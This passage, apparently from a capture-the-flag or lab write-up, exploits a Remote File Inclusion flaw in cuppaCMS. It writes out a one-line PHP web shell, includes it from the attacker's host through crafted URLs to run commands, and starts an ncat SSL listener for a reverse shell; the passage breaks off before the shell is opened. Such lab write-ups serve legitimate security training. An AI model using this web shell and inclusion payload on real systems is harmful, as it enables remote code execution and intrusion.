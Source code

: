 ## Exploitation
### Remote File Inclusion

I start the apache service and redirect a simple web shell to web root.

```console
root@kali:~$ systemctl start apache2.service 
root@kali:~$ echo "<?php passthru(\$_GET['cmd']); ?>" > /var/www/html/back.txt
```

Then I include the webshell that's hosted on my local server and we execute the command **id**, as  shown below:

`http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=id`

![](/assets/images/bravery/screenshot-6.png)

We check if the tool **ncat** exists, in order to obtain an encrypted shell from the victim machine.

`http://192.168.179.129/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.179.1/back.txt&cmd=which%20ncat`

![](/assets/images/bravery/screenshot-7.png)

**Getting a reverse shell**

We start a listener with **ncat** on port 443.

```console
root@kali:~$ nc -vlnp 443 --ssl
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B8AD 2215 76EA E761 6B75 9B68 FB2A 48B2 7067 4C38
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```
